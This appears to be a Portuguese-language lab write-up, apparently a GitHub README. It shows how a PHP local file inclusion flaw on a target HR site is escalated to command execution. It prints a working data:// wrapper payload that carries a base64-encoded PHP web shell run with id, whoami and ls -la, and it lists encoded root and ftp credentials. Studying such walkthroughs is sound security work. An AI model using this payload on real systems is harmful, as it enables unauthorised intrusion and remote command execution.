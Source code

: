 No OSINT do Site vemos q Tem a possibilidade de uma pagina com fraquezes de injeção php:
Entao vamos para essa analise de pagina:
A pagina em questao é essa:

<img width="1174" height="850" alt="image" src="https://github.com/user-attachments/assets/8e4eab61-e50f-4932-a89c-153d68a347c5" />
Na pagina em si possa existir outro tipo de injeção mas a que eu encontrei foi no URL do site:
ex: http://rh.businesscorp.com.br/index.php?page=submit

possiveis injeções do tipo LFI no site, para testarbasta apenas colocar um ls no final do =
ex: http://rh.businesscorp.com.br/?page=ls

<img width="1670" height="267" alt="image" src="https://github.com/user-attachments/assets/8d1545e8-3c03-4939-938a-efea531ff1c2" />
Esta mensagem de erro para aguns podem ser o ponto final de uma exploração mas a realidade que essa mensagem de ERRO já diz muita coisa 
    
    Warning: include(): Failed opening 'ls.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/html/index.php on line 54

teste 2:
<img width="995" height="207" alt="image" src="https://github.com/user-attachments/assets/ddd1206a-14f5-4ec6-abfd-5a8ce98cd182" />

teste 3:
<img width="987" height="173" alt="image" src="https://github.com/user-attachments/assets/44b6b4d2-7e4d-41cb-b10c-b6898e0d6810" />

Com base nesses comandos e os erros que o site retornava eu pude ir moldando o meu comando de injeção:

Podemos ver que o nosso comando executado carregou como um comando dentro do servidor, com base nas analises das lista que criei com base na vulnerabilidade da porta 22 eu vi que teve reconheciento de senha x64:
root:cm9vdA==
ftp:ZnRw 

Logo possivelmente esse LFI seja x64, Logo podemos testar algum injection x64
Data wrapper que faz essa conversão

pesquisando RCE's:

Até que cheguei nesses comandos:
# Executar 'id'
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=id

<img width="1461" height="193" alt="image" src="https://github.com/user-attachments/assets/ba17d026-9e13-45e5-ac4c-1ac20da10a77" />
Executando o comando ,não é possivel ver a resposta visivelmente no site mas abrindo o F12 temos uma resposta alí mostrando que toda a leitura e analise chegaram a uma conclusão certa

# Executar 'whoami'  
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=whoami

<img width="1096" height="194" alt="image" src="https://github.com/user-attachments/assets/c9d29a71-2c0a-489a-a182-f5e6d63bf92a" />

# Listar diretório
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=ls+-la

Encontrei essas que realizam comandos no sistema.

